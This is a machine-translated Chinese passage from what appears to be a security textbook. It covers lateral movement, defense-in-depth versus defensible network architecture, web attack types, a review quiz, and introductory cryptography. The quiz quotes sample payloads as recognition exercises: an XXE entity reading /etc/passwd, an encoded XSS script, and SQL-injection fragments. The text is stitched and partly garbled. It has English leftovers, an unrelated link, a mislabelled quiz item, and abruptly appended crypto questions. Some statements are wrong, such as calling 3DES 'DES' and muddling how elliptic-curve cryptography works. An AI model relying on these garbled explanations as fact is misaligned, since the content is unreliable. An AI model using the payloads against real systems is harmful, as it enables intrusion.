侧面移动使用之前所描述的相同策略：更多侦察以识别潜在目标、收集凭据以及利用各种手段获得远程访问其他系统。从 Linux 系统移动到 Linux 系统可能只需使用已获取的凭据通过 Secure Shell (SSH) 进行远程访问。在 Windows 环境中，也有其他机制可以用于系统间移动。

常见的侧面移动方式是从受害系统中窃取凭据。这些凭据可能直接从操作系统内存或应用程序内存中提取。像 Mimikatz 这样的工具有助于收集密码。一旦拥有凭据，就可以在环境中其他系统上使用它们。也可以使用如 Kerberoasting（见 第 7 章 “系统攻击”）等技术来获取访问其他系统的凭据，从而在环境内部实现侧面移动。

在某些情况下，Windows 系统可能允许使用 Windows Remote Management (WinRM) 对其他系统执行管理任务。这要求你拥有远程系统的凭据，可能仅需使用域凭据（如果你在域控制器上）。如果你在更远的位置，仍然可以使用域凭据，前提是你已设法获取它们。如果 WinRM 服务正在运行，还可以使用 PowerShell 命令执行管理任务。PowerShell 已成为一种强大的语言，适用于许多任务。

“活在林中”（living off the land）是攻击者使用的概念。过去，攻击者可能需要下载工具包，通常是编译的软件。如今，Linux 系统通常自带 Python 解释器，可用于多种目的。Windows 方面，PowerShell 可用，且每个 PowerShell 版本的更新都引入了大量新功能。攻击者意识到这一点，开始使用 PowerShell 在本地网络中发起攻击。

-   [防御深度](https://wiki.example.org/feynmans_learning_method)在很长一段时间内被认为是保护网络及其资源的最佳方式。它是来自军事领域的概念，有时被称为`castle defense`。防御深度策略的核心是拖延攻击者，争取时间让防御者准备并将攻击者赶出。网络采用分层方式，设置多层保护措施。Figure 12.8 展示了一个简单的网络设计，包含多个控制层以防止攻击。网络中部署了多个防火墙，用于在网络段之间实施更严格的访问控制。这意味着即使攻击者突破了第一道防线，后续的防线也会略有不同，攻击者必须重新开始。

在防御深度策略中，防火墙并非唯一的防护手段。防火墙之上还有访问控制列表（ACL），这些列表可以在路由器上实现，用于分隔那些没有防火墙的网络段。这在面向外部的路由器上尤其常见。细粒度的访问控制不应放在边界路由器上。然而，访问控制功能在边界路由器上也有多种用途，包括丢弃所谓的“火星包”（Martian packets）的所有网络流量。火星包是指源地址来自本应不应发出的地址空间的包。这包括 RFC 1918 定义的所有私有地址空间以及其他保留的地址空间。

防御深度存在几个问题。第一个问题是它未能考虑企业如何知道攻击正在发生，以便进行防御。如果攻击者绕过现有防护并出现在网络内部，运营团队如何得知并进行响应？这引出了第二个问题：防御深度方法完全误解了现代攻击手段。当今的攻击者更可能使用社交工程攻击，如钓鱼，这意味着他们常常是从网络内部进入的。

防御深度的另一个潜在问题是网络中设备的数量，防御功能可能是孤立的，且协同性不佳。防御深度策略可能导致主机拥有自己的防火墙，由服务器团队管理，而网络团队则管理其自身的保护措施。各个“ fiefdom”（势力）可能缺乏相互协调。结果可能是控制冲突，且缺乏统一的企业安全方法。


**FIGURE 12.8** Defense‑in‑depth network design

处理这种情况的一种方式是采用防御宽度（defense‑in‑breadth）方法。该方法考虑更广泛的攻击类型，认识到攻击不局限于网络或传输层，而是更可能发生在应用层。传统防火墙更擅长防御较低层的攻击，而应用层攻击则更为常见。下一代防火墙比传统的状态防火墙覆盖网络栈的更高层次，可能包括通过理解应用层协议来防御应用层攻击，从而丢弃违反协议的报文。

防御宽度策略应考虑企业的整体需求，并且要可重复，基于对关键资产和业务风险的理解。

日志是构建可辩护网络架构的 essential 方面。网络设备可以生成 NetFlow 数据，用于存储连接的摘要信息。事件发生后，拥有足够的数据来判断该事件是否达到需要调查的 incident 级别将非常有帮助。没有像 NetFlow 这样的数据，无法了解哪些系统在通信以及它们通信对象，这会使事件范围更难确定，也更难识别受影响的系统。没有这些额外信息，网络中可能存在 adversary，在收集数据。

当然，记录也可能是一项昂贵的活动。至少，除了日志本身（例如 Web 服务器、反向代理服务器、Active Directory 服务器、防火墙、入侵检测系统等），你还需要一个存储和查询这些日志的地方。这可能是 `Elastic Stack` 或 `Splunk` 之类的，也可能是一个完整的安全信息和事件管理（SIEM）解决方案。SIEM 可以帮助组织和关联数据，并且能够管理流入的事件，包括生成警报。

当然，这不仅仅是关于记录和可见性。一旦在环境中识别出攻击者，就需要能够进行响应。这包括能够隔离系统以及在网络中设置拥堵点。隔离系统并不只是把它从网络中拔掉。你可能需要在尝试弄清其渗透范围的同时，继续让攻击者保持对你系统的访问。你需要防止攻击者继续访问网络中的其他系统。隔离意味着能够将其及其流量与网络的其他部分分离开来。

可防御的网络架构必须考虑到网络会被入侵。系统会被入侵。目前，我们无法保证对手不会进入环境，尤其是社交工程是主要的攻击策略。这通常把攻击者放在网络的内部，意味着攻击者将拥有与桌面用户相同的访问权限。网络设计应考虑对手的位置。传统的“堡垒防御”或“分层防御”假设对手在网络外部。可防御的网络架构应能够让运维团队在发现对手的任何位置时进行防护。

可防御网络架构的一个重要方面是网络分段。这不仅仅是把系统放入虚拟局域网（VLAN）段。从安全角度来看，这帮助很少，因为攻击不会在层 2 发生，如果密码容易被破解的话。攻击者只需要知道目标系统的位置以及拥有凭据，就能轻松跨越网络段。即使网络真的被分段，每层 3 网络之间的连接通常也是防火墙或其他能阻断流量的设备。

即使流量本应被允许（因为它是常见的应用流量），部署这些防火墙仍然有益。一旦攻击者进入环境，你可以将其限制在单一网络段，并通过已有的控制措施阻断流量，从而隔离攻击者，防止其在环境中横向移动。

另一种实现这种隔离的方式是使用端点检测与响应（EDR）软件，这类软件通常具备隔离或 containment 受 compromized 系统的功能，以防止进一步传播到网络。可防御网络架构的概念并非是防止坏人进入，而是在他们进入后能够监控和控制他们。

## Summary

传统的攻击方式会利用监听服务的漏洞，甚至利用网络栈实现的实现漏洞。这不是现代攻击的主要场所。相反，攻击往往通过社交工程发生。攻击常见于应用层，而 Web 应用是用户与企业交互的常见渠道，因而成为攻击者的好目标。有几种常见的 Web 应用攻击方式，这些攻击可以让攻击者获取数据或甚至访问底层系统。例如，XML 外部实体处理（XXE）可以利用 XML 访问底层系统函数和文件；SQL 注入不仅能让攻击者读取数据库中的数据，在某些情况下还能获得操作系统访问权限。

不过，并非所有攻击都针对服务器基础设施。跨站脚本（XSS）攻击是为了获取用户拥有的内容，这可能包括用户系统上的数据，也可能包括用户访问的站点上的数据。存储在 Cookie 中的会话标识信息可能被用来访问用户拥有权限的其他系统，如在线零售或银行网站。这些会话令牌可以用于窃取用户数据。

Web 应用在开发时可以通过多种方式进行防护。首先，每个函数应对输入进行验证，即使预期该输入来自受信任来源。此外，不应直接将用户输入传递给任何子系统，这样做可能导致诸如命令注入等攻击。

在应用层利用方面，攻击者试图将其代码注入到应用程序的内存空间中，以此控制程序的执行流，操控指针，告诉处理器从哪里获取指令。缓冲区溢出可以将指令和返回地址推 onto 栈，从而让攻击者控制程序的执行流，这被称为 `arbitrary code execution`。另一种攻击涉及堆（heap），即动态数据存储的内存结构。堆喷（heap spraying）是攻击者在堆中注入代码，一旦代码进入堆，攻击者就可以诱导程序在堆上执行这些指令。

一旦攻击者进入环境，他们会寻求横向移动，以获取其他系统的访问权限。这可能涉及特权提升和更多侦察，以便访问可能包含更多数据的系统。

使用防御分层（defense‑in‑depth）策略一直是网络保护的一种受尊敬的方法，也称为“堡垒防御”，其核心是构建大量防线，使攻击者更难或更费力地进入网络。但这忽视了现代对手——他们组织化、资金充足，会不惜花费时间去攻击目标。增加几道障碍不足以阻止他们，且如果缺乏检测策略和控制措施，仅仅减慢攻击者并不能提供除短暂缓解外的其他好处。防御广度（defense‑in‑breadth）通过扩大对现代攻击者行为的理解来缓解防御分层的局限，在网络栈的全局范围内提供控制措施，而非单纯依赖防火墙来阻挡攻击者。

可防御网络架构是一种新兴的网络架构和设计方法，它基于这样认识：社交工程攻击非常常见，同时也高度重视可见性和响应，因为 breaches（入侵）非常普遍且未必可以避免。日志是检测的关键，当收集大量日志时，管理这些日志的系统（如 SIEM）是必需的。可防御网络架构认识到攻击者会通过社交工程或其他看似合法的用法进入系统。因此，可防御架构在攻击者进入后增加了隔离、 containment 与监控的能力。

## Review Questions

你可以在附录中找到答案。

1. 什么协议用于 Smurf 攻击？
   1. DNS
   2. ICMP
   3. TCP
   4. SMTP

2. 如果在数据包捕获中看到 `’` 或 `1=1;`，你会预期发生了什么？
   1. 跨站脚本
   2. 命令注入
   3. SQL 注入
   4. XML 外部实体注入

3. 哪个协议常用于放大攻击？
   1. TCP
   2. SMTP
   3. DNS
   4. XML

4. SYN 洪水的目的是什么？
   1. 填满操作系统中的连接缓冲区
   2. 填满 web 服务器中的连接缓冲区
   3. 填满应用层中的连接缓冲区
   4. 填满 UDP 的连接缓冲区

5. 慢读攻击（slowloris）是如何工作的？
   1. 在操作系统中保持打开的连接缓冲区
   2. 在 web 服务器中保持打开的连接缓冲区
   3. 在应用层中保持打开的连接缓冲区
   4. 在 UDP 中保持打开的连接缓冲区

6. 将字符串 `AAAAAAAAAAAAAAAAA` 输入到只分配了 8 字节空间的变量中会发生什么？
   1. 堆喷射
   2. SQL 注入
   3. 缓冲区溢出
   4. 慢读攻击

7. 跨站脚本（XSS）攻击的目标是什么？
   1. Web 服务器
   2. 数据库服务器
   3. 第三方服务器
   4. 用户

8. 在数据包捕获中看到以下内容，你会认为发生了什么？

```
<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
```

   1. 跨站脚本
   2. SQL 注入
   3. 命令注入
   4. XML 外部实体注入

9. 防止 SQL 注入攻击的保护措施是什么？
   1. 缓冲区溢出
   2. 输入验证
   3. XML 过滤
   4. 横向移动

10. 防御深度网络设计中至关重要的安全元素是什么？
    1. 防火墙
    2. SIEM
    3. Web 应用防火墙
    4. 日志管理系统

11. 防御深度（defense‑in‑breadth）方法会增加什么？
    1. 对更广泛攻击范围的考虑
    2. 对 SQL 注入的防护
    3. 对缓冲区溢出的防护
    4. 对堆喷射的防护

12. 哪种攻击会将代码注入动态分配的内存中？
    1. 缓冲区溢出
    2. 跨站脚本
    3. 堆喷射
    4. 慢读攻击

13. 在数据包捕获中看到以下内容，你会预期发生了什么？

```
%3Cscript%3Ealert('wubble');%3C/script%3E
```

    1. SQL 注入
    2. 命令注入
    3. 跨站脚本
    4. 缓冲区溢出

14. 对下面的字符串进行了什么操作？

```
%3Cscript%3Ealert('wubble');%3C/script%3E
```


1. `Base64` 编码  
2. `URL` 编码  
3. 加密  
4. 密码散列  

15. 慢读攻击使用的技术是什么？  
1. 小型 `HTTP` 头请求  
2. 小型 `HTTP` 体请求  
3. 小型 `HTTP POST` 请求  
4. 小型文件检索请求  

16. 哪个元素可以用于促进日志收集、聚合和关联？  
1. 日志管理器  
2. 防火墙  
3. 入侵检测系统（`IDS`）  
4. `SIEM`  

17. 命令注入攻击的目标是什么？  
1. 操作系统  
2. `Web` 服务器  
3. 数据库服务器  
4. 用户  

18. 低轨道炮（`Low Orbit Ion Cannon`）主要用于什么？  
1. `SQL` 注入攻击  
2. 日志管理  
3. 拒绝服务攻击  
4. 缓冲区溢出  

19. 你可以使用什么来告知防御策略？  
1. `SIEM` 输出  
2. 攻击生命周期  
3. 日志  
4. 入侵检测系统  

20. 缓冲区溢出旨在控制什么？  
1. 栈指针  
2. 帧指针  
3. 指令指针  
4. 缓冲区指针  

21. 哪种防护技术最适合用于防御 `SQL` 注入攻击？  
1. 返回 `libc`  
2. `Web` 应用防火墙  
3. 地址空间布局随机化  
4. 栈守护  

22. 如果你想获取 `web` 服务器文件系统中的文件，下面哪种攻击技术可能会被使用？  
1. 跨站脚本  
2. 命令注入  
3. `SQL` 注入  
4. 目录遍历  

23. 区分防御性网络架构与防御深度的两个重要特征是什么？  
1. 防火墙和 `DMZ`  
2. 蜜罐和 `DMZ`  
3. 隔离和恶意软件防护  
4. 限制和监控  

24. 哪种系统可以用于陷阱并监控攻击者？  
1. `Web` 应用防火墙  
2. 下一代防火墙  
3. 蜜罐  
4. `DMZ`  

25. 哪种攻击技术可以绕过地址空间布局随机化（`ASLR`）？  
1. 返回 `libc`  
2. 栈守护  
3. 缓冲区溢出  
4. 返回 `JavaScript`  

26. 如果你在一台不加密所有流量的 `Web` 服务器上发现异常，你会看到什么？  
1. 所有流量都是加密的  
2. 即使是宣传类（`brochureware`）流量也以明文传输  
3. 只有邮件服务器使用加密  
4. `TLS` 只能用于 `HTTPS`  

27. 加密的基本概念是什么？  
1. 隐藏写作  
2. 密钥管理  
3. 完整性验证  
4. 哈希算法  

28. 非对称加密和对称加密的主要区别是什么？  
1. 非对称使用两个密钥，对称使用一个密钥  
2. 非对称只能用于解密，对称只能用于加密  
3. 非对称速度更快，对称速度更慢  
4. 非对称需要证书，对称不需要  

29. 哈希算法的主要用途是什么？  
1. 生成固定长度的输出  
2. 加密数据  
3. 解密数据  
4. 管理密钥  

加密是关于隐私和保密性，但重要的是要意识到加密并不是解决所有问题的办法。全盘加密很常见。全盘加密保护的是一个“死”硬盘（即它不在已启动的系统中）。如果攻击者通过恶意软件或窃取的凭据获取系统访问权限，且恶意软件在合法用户权限上运行或窃取的凭据拥有系统权限，那么硬盘加密就毫无意义。已登录的用户的系统看起来对该用户是未加密的。手机设备的加密存储也是如此。因此，认识到加密能做什么、不能做什么是很重要的。

## 基础加密

我们从最开始的地方开始，也就是单词。更准确地说，开始是纯文本。纯文本就是你正在阅读的内容。它是文本，或任何其他可直接消费的数据类型，且在没有任何其他处理的情况下即可使用。它没有以任何方式被转换。当这些纯文本经过加密算法的转换后，会变成 `ciphertext`（密文）。`ciphertext` 表面上是不可读的，需要通过一定过程将其逆转回纯文本。

### 替换密码

并非所有加密都必须使用当今的数学过程。目标仅仅是生成一段即使被拦截的读者在没有额外信息的情况下无法阅读的内容。早期的密码学方法是旋转密码。它取一个字母表并将字母旋转若干位置。将原始字母表置于上方，旋转后的字母表置于下方，即可轻松在两者之间转换。如果原始字母表在上方，加密就是直接取位于其下方的字母。这种加密方式称为 `替换密码`，因为一个字母被固定、已知的方式替换为另一个字母。下面是一个示例：

旋转密码

```
`ABCDEFGHIJKLMNOPQRSTUVWXYZ`

`EFGHIJKLMNOPQRSTUVWXYZABCD`
```


要加密单词 `hello`，你需要在上方行找到每个字母，然后在下方行找到对应的字母。这会得到 `lipps` 作为密文。解密时，你在下方行找到每个字母，并将其替换为同一位置在上方行的对应字母。这种加密技术据说是朱利叶斯·凯撒用来向野外将领发送信息的。如果信息被拦截，除非拥有密钥（即字母表旋转的位数），否则无法阅读。

这并不意味着密钥不能被推导。此类密码可以通过暴力破解攻击来破解，即尝试所有可能的旋转（在拉丁字母表中有 25 种可能，因为 26 种旋转会回到原来的位置，不算旋转）。最终，某些尝试会产生有意义的结果，从而得出密钥。

另一种在替换密码中推导密钥的方法是频率分析。频率分析展示了语言中字母的统计分布。图 13.1 展示了英语语言的分布。最常用的字母是 `e`，其次是 `t`，然后是 `a`。对旋转密码等替换密码进行频率分析时，会找出密文中最常用的字母，并根据正态分布的概率进行替换。一旦开始替换最常用的字母，部分单词会变得可读，因此在概率相同的字母之间，可以通过已解读的单词来推断其他字母。当然，在旋转密码中，一旦有一个字母被解读，就能得到密钥，因为你知道密文字母与明文字母之间的距离。


**FIGURE 13.1** 英文字母正态分布

由于旋转密码易于破解，尤其是当攻击者知道这是旋转密码时，还有其他手工加密方法。其中一种采用多维度方法。它不再是简单地在上方放置一个旋转后的字母表，而是使用网格。拥有网格后，需要更复杂的密钥。此时，可以使用一个单词作为密钥，这个单词决定了如何将明文转换为密文。这种密码被称为 `维吉尼亚密码`（Vigenère cipher），以其开发者 Blaise de Vigenère 命名。

你可以在 Figure 13.2 中看到使用维吉尼亚密码加密消息时所需的网格或方格示例。该过程通过取明文和作为密钥的单词来实现。假设密钥为 `hello`，要加密的单词是 `deforestation`。由于密钥字母数与明文不一致，需要重复密钥直到与明文长度匹配。此例中，密钥变为 `hellohellohel` 以匹配 `deforestation` 的 13 个字母。密钥字母在上方行与明文字母在左侧列对应，两者交叉的位置即为密文字母。例如，该示例的密文为 `kiqzflwelhpsy`。


**FIGURE 13.2** Vigenère 方格

另一种思考方式是将密钥对齐在 x 轴，明文对齐在 y 轴。以 `d`（y 轴）和 `h`（x 轴）为例，它们的交叉点是 `k`。第二个字母 `e` 在 y 轴上，`e` 在 x 轴上，交叉点为 `i`。以此类推，直到明文用尽。

你会发现这种手动过程很费时。幸运的是，现在有简便的程序和网站可以帮助完成这种加密和解密，就像旋转密码一样。这意味着，虽然这些替换密码在研发时巧妙且手动难以破解，但现代计算机使它们变得 trivial（ trivial 可译为“微不足道、轻松”）地被破解。因此，我们需要转向其他加密方法，包括（甚至特别是）转换密码。

### Diffie–Hellman

正如你可能预期的，密钥管理在密码学中至关重要。密钥事先已知，有时被称为 `pre‑shared keys`（预共享密钥），因为它们在需要时已经提前共享。如果密钥未提前共享，则需要两方在加密通信中安全共享密钥，且不被拦截。一旦密钥被知晓，信息就不再是加密的。理想情况下，密钥根本不需要交换。当密钥交换时，存在被窃听的风险。更好的做法是双方自行推导密钥，即密钥永不直接交换。

Whitfield Diffie 和 Martin Hellman 发明了一种方法，使两个端点能够在不传输任何可被用来推导密钥的数据的前提下生成密钥。虽然其细节涉及大量数学，这里不作深入探讨，但概念上足以理解。Figure 13.3 展示了使用 Diffie‑Hellman 方式生成密钥的过程，利用油漆来示意。


**FIGURE 13.3** Diffie‑Hellman process

双方对话起始时使用相同的基础油漆（初始密钥值）。在 Figure 13.3 中，这个基础油漆的“值”是绿色。每一方在基础油漆上加入一个随机值（或油漆颜色）。艾丽丝加入红色，鲍勃加入黄色，结果分别为艾丽丝的橙色和鲍勃的蓝色。两方得到的值完全不同，源自各自的随机值注入。此时，双方可以交换各自的结果，交换内容本身不会泄露给攻击者。前提是把传输的颜色拆解为产生该颜色的两种颜色（值）是一项极其费时的操作，即需要一个不可逆的数学算法。

当双方都拥有对方的值/颜色后，只需在已有的颜色上加入各自最初加入的随机值即可。此时双方都拥有基础颜色 + 各自随机值 + 对方的随机值，颜色/值相同，可作为密钥。Figure 13.3 显示，在传输后再加入随机颜色会得到共同的秘密/颜色 —  — 棕色。利用此过程，可生成用于加密和解密双方消息的密钥。

## Symmetric Key Cryptography

Diffie‑Hellman 交换得到的密钥是对称密钥，因为相同的密钥用于加密和解密消息。它在双方之间保持一致，因而被称为对称。这是一种常见的密钥管理方式，因为只需管理一个密钥，且无论传输方向如何，密钥都是相同的。双方都应拥有相同的密钥；若不一致，则由一个密钥加密的消息无法被另一密钥解密，结果将呈现乱码。

任何对称密钥算法都可以是流加密（stream cipher）或区块加密（block cipher）。区块加密一次处理整块数据，将其转换为固定长度的块；若数据长度不是块大小的倍数，最后一块会进行填充以匹配块尺寸。流加密则逐字节（或逐位）进行加密，不依赖于其他部分。例如，维纳尔密码（Vigenère cipher）即为流加密的典型例子，数据按字母逐一加密，与消息其他部分无关。区块加密常用块长度为 64 位，即 8 个字节字符。

### Data Encryption Standard

数据加密标准（DES）是一种使用对称密钥的区块加密算法，现已被淘汰。其重要之处在于仅使用 56 位密钥。1970 年代在 IBM 的 Lucifer cipher 基础上批准时，计算能力不足以支撑更长的密钥长度，故仅接受 56 位密钥。随着计算能力提升，即使算法本身未出现缺陷，56 位密钥仍易受 brute‑force 攻击 —  — 攻击者可尝试所有可能的密钥以期提取明文。DES 的块大小为 64 位，但密钥仅 56 位，因为 8 位用于奇偶校验。

当 DES 被证明存在安全隐患时，国家标准与技术研究院（NIST）启动了寻找替代算法的计划。但该计划进度不足以保护正在使用 DES 加密的数据，于是提出了短期的临时措施：在原算法基础上多次应用，以提升强度。若多次使用相同密钥，仍可能因密钥本身的弱点被攻击。更可行的短期方案是使用多个不同的密钥。

三重 DES（3DES）使用三个密钥，使有效密钥长度提升至 168 位。但这并非一个 168 位的密钥，而是三个独立的 56 位密钥依次使用。第一个密钥用于加密消息，第二个密钥用于解密（实质上仍是密文），第三个密钥再次用于加密，从而得到最终的密文。换句话说，流程是：明文 →（密钥 1）→ 密文 →（密钥 2）→ 密文 →（密钥 3）→ 最终密文。

尽管 DES 与 3DES 均已被淘汰，但它们提醒我们：**密钥长度并不等同于安全**，算法本身的安全性更为关键。即使把密钥长度翻倍或三倍，若算法本身薄弱，仍可能被破解。additionally，3DES 的 168 位并非单一密钥长度，而是三个 56 位密钥的组合。

### Advanced Encryption Standard

DES 的替代算法是高级加密标准（AES）。正如 Lucifer 用于创建 DES，Rijndael cipher 也被用作 AES 的基础。Rijndael 与 AES 的区别在于，Rijndael 为算法本身，而 AES 为标准化的实现。Rijndael 早期研发，AES 标准于 2001 年发布。AES 是区块加密，支持多种密钥长度，块长度固定为 128 位。选定 AES 时，同时指定了三种密钥长度：128 位、192 位和 256 位。正如 56 位密钥的 DES 随时间变得脆弱，AES 在 128 位密钥长度下也被发现存在理论弱点，业界普遍倾向于使用更长的密钥长度。计算能力不再是限制因素，因此更长的密钥长度更易支持。

需要注意的一点是，加密算法仅是整体安全体系的一部分，完整的安全组合称为 ciphersuite，包含以下几个要素：

1. 密钥交换算法（常见为 DH，但不限于此）
2. 加密算法（如 AES）
3. 消息验证码（用于认证）

下面的代码片段展示了 Google 网页服务器所支持的 ciphersuite 列表，该列表是通过 `sslscan` 工具生成的，用于识别使用 SSL/TLS 协议的服务器所支持的加密套件。

**Ciphersuites**

- [支持的服务器密码套件：](https://example.org) 首选 TLSv1.3 128 位 TLS_AES_128_GCM_SHA256 曲线 25519 DHE 253
  接受 TLSv1.3 256 位 TLS_AES_256_GCM_SHA384 曲线 25519 DHE 253
  接受 TLSv1.3 256 位 TLS_CHACHA20_POLY1305_SHA256 曲线 25519 DHE 253
  首选 TLSv1.2 256 位 ECDHE-ECDSA-CHACHA20-POLY1305 曲线 25519 DHE 253
  接受 TLSv1.2 128 位 ECDHE-ECDSA-AES128-GCM-SHA256 曲线 25519 DHE 253
  接受 TLSv1.2 256 位 ECDHE-ECDSA-AES256-GCM-SHA384 曲线 25519 DHE 253
  接受 TLSv1.2 128 位 ECDHE-ECDSA-AES128-SHA 曲线 25519 DHE 253
  接受 TLSv1.2 256 位 ECDHE-ECDSA-AES256-SHA 曲线 25519 DHE 253
  接受 TLSv1.2 256 位 ECDHE-RSA-CHACHA20-POLY1305 曲线 25519 DHE 253
  接受 TLSv1.2 128 位 ECDHE-RSA-AES128-GCM-SHA256 曲线 25519 DHE 253
  接受 TLSv1.2 256 位 ECDHE-RSA-AES256-GCM-SHA384 曲线 25519 DHE 253
  接受 TLSv1.2 128 位 ECDHE-RSA-AES128-SHA 曲线 25519 DHE 253
  接受 TLSv1.2 256 位 ECDHE-RSA-AES256-SHA 曲线 25519 DHE 253
  接受 TLSv1.2 128 位 AES128-GCM-SHA256
  接受 TLSv1.2 256 位 AES256-GCM-SHA384
  接受 TLSv1.2 128 位 AES128-SHA
  接受 TLSv1.2 256 位 AES256-SHA
  接受 TLSv1.2 112 位 DES-CBC3-SHA

在该列表中可以看到 AES‑128 和 AES‑256 都被支持。值得注意的是，DES 也在 Google 的 Web 服务器上被支持。虽然它已被 AES 取代，但在某些功能较弱的系统上仍有浏览器需要使用。这意味着 DES 可能仍然是必要的。虽然它被接受，但并非首选算法。这里的 DES 采用 Cipher Block Chaining (CBC) 模式，这是一种进一步变换消息的方式。在 CBC 中，每个密文块都会与前一个块进行异或（XOR）操作。由于第一个块没有前一个块，会使用初始化向量（IV）与其异或。请记住，密文始终是二进制的，因为每个字节可能不与可打印的 ASCII 字符对齐。

针对 AES 的潜在成功攻击数量有限，其中一种是侧信道攻击。侧信道攻击不依赖于算法本身的弱点，而是针对实现。攻击者可以通过观察功耗或处理器利用率等渠道获取信息。还可能出现电磁泄漏，为攻击者提供信息。这类攻击需要深入理解密码学和系统工作原理，普通用户难以实施。这并不表示 AES 完全安全，但目前尚未发现该算法本身的弱点。

还有其他类型的密码学攻击，包括相关密钥攻击。相关密钥攻击是指攻击者可以观察使用多个不同密钥加密的密文。攻击者并不知道具体密钥值（否则直接使用密钥解密），但攻击者知道密钥之间存在某种数学关系。例如，大量相同位数的密钥可能导致此类关系。2009 年，有人提出利用 AES 关键调度的相关密钥攻击。防止此类攻击的关键在于实现：实现 AES 时应禁止使用相关密钥。

虽然存在针对 AES 的关键恢复攻击，使得攻击者能够获取密钥用于解密密文，但这些攻击只能缩短暴力破解所需的时间，仍然需要大量时间和计算资源。更长的密钥长度有助于防御此类攻击。总体而言，目前没有实用的 AES 攻击。

### 非对称密钥加密

对称密钥加密使用同一密钥进行加密和解密，而非对称密钥加密则使用两把密钥。因此，非对称密钥加密也称为 `公钥加密`。其中一把是公钥，另一把是私钥。这两把密钥在数学上相互关联，使得用一把加密的内容可以用另一把解密。这解决了在双方之间传递密钥的问题。如果有两把密钥，只需保护其中一把，另一把可以安全传输。事实上，公钥本身就是公开的，只有拥有公钥的人才能使用它。

公钥加密使用公钥对消息进行加密，只有私钥才能解密。私钥是唯一需要保护的密钥，因为它仅用于解密使用对应公钥加密的消息。如果想与他人交换加密消息，你应提供你的公钥，而他们应提供自己的公钥。发送这些公钥本身并不存在危险或风险，它们只能用于与相应的私钥配合使用。攻击者不可能仅凭同一公钥解密别人的消息。公钥的工作方式并非如此。

公钥加密的一个常见算法是 RSA（Rivest‑Shamir‑Adleman）。RSA 使用基于一对大质数的密钥。RSA 可使用的密钥长度为 `1,024` 位、`2,048` 位和 `4,096` 位。这里凸显了不同算法之间的关键强度不可直接比较。非对称算法的行为截然不同。仅凭 AES 使用 128 位而 RSA 使用 1,024 位，不能直接断言 RSA 强度是 AES 的数量级。两者差异巨大，关键长度无法直接比较。唯一可比较的结论是：RSA 2,048 位密钥明显强于 RSA 1,024 位密钥，正如 AES 256 位密钥明显强于 AES 128 位密钥。

### 混合加密系统

你可能会好奇为何会有对称和非对称两种算法。为何不只使用一种？虽然无法直接比较对称和非对称，但非对称密钥长度更大，若攻击基于暴力破解，破解 1,024 位密钥所需时间远超破解 128 位密钥，因为密钥空间有许多数量级的差异。那么为何不在所有场景中使用非对称密钥加密？

首先，非对称密钥加密在计算上代价高昂，速度较慢，因为密钥体积大。虽然现代计算机速度快，但使用更大的密钥仍会带来更多计算开销。其次，公钥加密需要大量的密钥管理开销。如果在所有情况下都使用公钥加密，每个人都需要拥有密钥，这在实际操作中极不实际。稍后在讨论密钥管理和证书颁发机构时会进一步说明。

然而，当涉及对称密钥加密时，我们仍然面临密钥交换的问题。可以使用非对称密钥加密来解决这一问题。我们通过结合使用公钥和对称密钥加密来实现这一点。这种方法被称为混合密码系统。公钥可以用于保护对称密钥，从而避免任何人获取该对称密钥。此时的对称密钥有时被称为 `会话密钥`，因为它用于在两个系统之间的会话中加密数据。这种混合密码系统最常用于与 Web 服务器进行通信。

虽然可以使用 Diffie‑Hellman 来协商密钥派生，但在实际混合密码系统中并不常用。相反，双方中的任意一方会生成对称密钥。生成密钥后，公钥用于对其进行加密。在 Web 通信中，通常只有 Web 服务器持有公钥。这意味着客户端会生成会话（对称）密钥并将其发送给 Web 服务器，使用服务器的公钥对其进行加密。

### 非否认性

公钥加密的另一价值在于公钥和私钥分别属于个人或系统（取决于其最终用途）。我们可以利用已知个人的公钥。除了加密外，非对称密钥还可用于数字签名。消息使用某人的私钥进行签名，然后可以通过该人的公钥进行验证。此类情况下无需担心隐私，因为这仅是签名。它用于证明消息是由拥有私钥的个人生成的。证明消息来源于拥有私钥的所有者这一原则称为 `非否认性`。

公平地说，非否认性表示：当使用私钥发送消息时，私钥的所有者不能否认该消息来源于他们本人。这与前述表述的相反，但两种思考方式的含义相同，或至少产生相同的效果。术语 `非否认性` 的含义是：你不能通过声称消息不源自你自己而否定它。

这要求私钥必须得到保护。如果私钥没有任何方式保护而泄露，任何人都可以利用它。因此，保护密钥的意义各异。第一种是文件权限应仅允许文件所有者访问，这是保护的一部分，但并非全部。攻击者仍可能通过入侵该用户系统获取密钥。因此，使用密钥时需要密码。密码在密钥用于签名或签名失败之前会被请求。

### 椭圆曲线密码学

因素分解质数的方法长期被用于密钥生成，因为对这些巨大数字进行运算所需的时间和计算力是巨大的，但这并不是唯一生成密钥的方式。诸如因数分解质数等复杂问题被认为是不可解的，这意味着解决该问题所需的计算力是实质上难以企及的。大质数本身耗时，但随着计算能力的提升，解决这些问题变得更加容易，尤其是当计算成本大幅下降时。随着计算机变得显著更强大，使用多台机器同时处理复杂任务已不再困难。

椭圆曲线密码学（ECC）则采用不同的思路。它不依赖于因数分解质数等资源密集型计算，而是使用离散对数。人们认为，对随机椭圆曲线元素求离散对数在计算上不仅困难而且不可行。使用 ECC 时，密钥长度显著缩短，从而降低了加密和解密所需的计算资源。

椭圆曲线可以通过绘制多项式函数的图形来直观理解。例如，如 Figure 13.4 所示，函数 `y2 = x3 – x + 1` 的图形就是一个椭圆曲线的示例。对数是指数运算的逆运算，而离散对数是指使一个数值通过将另一个数值相乘得到目标值的指数。简单来说，它是索引。例如，若 `bk = a`，则 `k` 即为离散对数。因此，你选择曲线上的一个点，并求出对应的 `k` 值，这就是在 ECC 中使用的值。


**FIGURE 13.4** 椭圆曲线

你可能会认为这并不困难。事实上，离散对数没有统一的计算方法。虽然存在某些特定情形下可以快速计算离散对数，但离散对数本身缺乏通用解法，给定离散对数 `x` 时，只有一种方式可以求解，这正是 ECC 的不可解性所在。与质数的因数分解不同，前者有已知的计算方法（尽管计算量大），而 ECC 之所以可行，是因为无法逆向求解。

或许更易理解的思路是：涉及大量变量多项式方程，不存在单一算法能够将曲线上的点逆转回原方程。缺乏能够解决（或逆向解决）所有方程的通用算法，使得该问题具有不可解性，从而能够创建难以破解的密钥。

你可以在前文的 Web 服务器扫描输出中看到 ECC 的使用。当在密码套件中看到 `ECDH` 时，指的是椭圆曲线 Diffie‑Hellman，这是一种利用椭圆曲线密码学的 Diffie‑Hellman 变体，用于密钥协商。

### 证书颁发机构与密钥管理

